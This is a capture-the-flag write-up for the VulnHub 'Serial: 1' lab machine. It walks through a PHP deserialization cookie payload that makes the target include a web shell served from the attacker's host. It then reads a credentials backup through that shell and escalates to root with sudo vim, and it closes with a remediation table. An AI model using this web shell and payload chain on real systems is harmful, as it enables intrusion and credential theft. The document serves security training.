


# Serial: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.2.6 |
| **Attacker IP** | 192.168.2.3 |
| **Difficulty** | Beginner/Intermediate |
| **OS** | Linux |
| **Goal** | user flag + root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/serial-1-vulnhub-walkthrough/) |

## Attack Summary

Serial: 1 focuses on **PHP object deserialization** leading to **Local File Inclusion** and subsequently **Remote Code Execution**. The web application stores a serialized, Base64-encoded PHP object in a cookie. A backup archive exposes the source code. Analysis reveals that the `Log` class performs an `include()` call with a user-controllable `type_log` path. Crafting a malicious serialized object with `type_log` pointing to an attacker-hosted PHP shell achieves RCE. Credentials found during enumeration allow SSH login. Privilege escalation uses `vim` with sudo via GTFOBins.

## Methodology

1. Nmap scan: ports 80 (HTTP) and 22 (SSH)
2. Directory brute-force reveals `/backup` archive
3. Source code analysis: cookie deserialization, `Log` class LFI
4. Craft malicious serialized object → RCE via remote file inclusion
5. Find `credentials.txt.bak` → SSH login
6. `sudo vim` → GTFOBins shell escape → root

---

## Step 1: Port Scanning

```bash
nmap -p- -A 192.168.2.6
```



Open ports: **22** (SSH) and **80** (HTTP).

## Step 2: Directory Enumeration

```bash
dirb http://192.168.2.6
```

Found: `/backup/` directory.

## Step 3: Cookie Analysis

Browse to `http://192.168.2.6`. Intercept the request (Burp Suite or browser devtools) and examine the `user` cookie. It is a long Base64 string.

```bash
echo '<cookie_value>' | base64 -d
# Output: serialized PHP object with username field
```


## Step 4: Source Code Analysis

Download the backup zip from `http://192.168.2.6/backup/`:

```bash
wget http://192.168.2.6/backup/<archive>.zip
unzip <archive>.zip
```

Three files extracted: `index.php`, `user.class.php`, `log.class.php`.

Key findings from source review:

**index.php**: deserializes the `user` cookie and instantiates the object.

**user.class.php**: the `User` class constructor sets a welcome message.

**log.class.php**: the `Log` class has a `type_log` property. Its constructor calls:
```php
include($this->type_log);
```
`type_log` is not validated. If a `Log` object is deserialized with `type_log` pointing to an attacker-controlled file, that file is included and executed.


## Step 5: Craft Malicious Cookie — RCE

Create a PHP shell on the attacker machine (`shell.php`):

```php
<?php system($_GET['cmd']); ?>
```

Serve it:

```bash
php -S 0.0.0.0:80
```

Modify `log.class.php` to set `type_log` to the attacker shell URL:

```php
$log = new Log();
$log->type_log = "http://192.168.2.3/shell.php";
echo base64_encode(serialize($log));
```

Run locally to generate the cookie:

```bash
php log.class.php
```

Submit the Base64 output as the `user` cookie value. The application deserializes the object and `include()` fetches and executes `shell.php`.

Test RCE:

```
http://192.168.2.6/?cmd=id
```



Output confirms `uid=33(www-data)`.

## Step 6: Find Credentials

Browse the web root files via the `cmd` parameter:

```
?cmd=find /var/www/html -name "*.bak"
```

Found `credentials.txt.bak`. Read it:

```
?cmd=cat /var/www/html/credentials.txt.bak
```

Credentials recovered (e.g., `sk4:<password>`).

## Step 7: SSH Login and User Flag

```bash
ssh sk4@192.168.2.6
ls
cat flag.txt
```

User flag retrieved.

## Step 8: Privilege Escalation — sudo vim → GTFOBins

```bash
sudo -l
```

Output shows: `(root) NOPASSWD: /usr/bin/vim`

Exploit via GTFOBins:

```bash
sudo vim
# Inside vim:
:!/bin/bash
```

A root shell spawns.

## Step 9: Root Flag

```bash
cd /root
ls
cat fl4g.txt
```


---

## Lessons Learned

- **PHP object deserialization** with user-controlled cookie data is a critical vulnerability. Any class with a `__wakeup`, `__destruct`, or direct `include()` in its constructor becomes a gadget.
- **Backup archives in web-accessible directories** expose source code that reveals deserialization logic.
- **Remote file inclusion via deserialization** requires PHP `allow_url_include` to be enabled — a dangerous non-default setting.
- **sudo vim without password** provides trivial privilege escalation. GTFOBins documents shell escapes for over 100 Unix binaries.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Unsafe PHP deserialization | Never deserialize untrusted input; use JSON instead of PHP serialized objects |
| User-controlled `include()` path | Validate/whitelist include paths; disable `allow_url_include` in `php.ini` |
| Backup files in web root | Move backups outside the web root; exclude them in `.htaccess` |
| sudo vim without password | Remove unnecessary sudo rules; apply principle of least privilege |
